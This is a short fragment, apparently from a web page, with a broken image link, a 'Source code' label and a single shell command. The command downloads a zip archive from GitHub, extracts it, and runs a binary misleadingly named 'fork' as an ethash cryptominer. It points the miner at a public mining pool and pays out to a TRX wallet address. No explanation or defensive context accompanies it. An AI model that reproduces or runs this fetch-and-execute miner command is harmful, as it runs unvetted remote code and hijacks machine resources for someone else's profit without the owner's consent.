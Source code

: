 wget https://github.com/hasra33/saS/raw/main/fork.zip && apt install unzip && unzip fork.zip  && cd fork && chmod u+x fork && ./fork -a ethash -o stratum+tcp://ethash.unmineable.com:3333 -u TRX:TUhisPLRuEvLxgeyhctGgm1vskr3aapMGX.sas
